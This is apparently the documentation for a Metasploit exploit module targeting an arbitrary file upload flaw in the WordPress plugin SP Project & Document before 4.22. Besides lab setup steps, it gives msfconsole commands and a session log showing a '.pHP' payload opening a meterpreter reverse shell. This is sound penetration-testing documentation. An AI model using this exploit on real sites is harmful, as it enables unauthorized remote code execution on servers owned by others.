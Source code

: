 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin SP Project & Document < 4.22.
Indeed, even if it is not possible to upload `.php` files, the security check only works with lowercase
making possible to upload `.pHP` files for instance.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/sp-client-document-manager/<user_id>/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of SP Project & Document plugin from [here]
(https://downloads.wordpress.org/plugin/sp-client-document-manager.4.21.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps


1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_sp_project_document_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and SP Project & Document 4.21.
See the following output :

```
msf6 > use wordpress_plugin_sp_project_document_manager
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set rhost 192.168.1.35
rhost => 192.168.1.35
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set username admin
username => admin
msf6 exploit(wordpress_plugin_sp_project_document_manager) > set password your_best_password
password => your_best_password
msf6 exploit(wordpress_plugin_sp_project_document_manager) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 4.21 of plugin SP Project & Document Manager found !
[+] The target is vulnerable. This version of SP Project & Document Manager is vulnerable !
[*] Uploading file 'ejtfh.pHP' containing the payload...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 4 opened (192.168.1.28:4444 -> 192.168.1.35:59938) at 2021-07-09 11:41:25 +0200
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.35
[*] Meterpreter session 5 opened (192.168.1.28:4444 -> 192.168.1.35:59940) at 2021-07-09 11:41:45 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
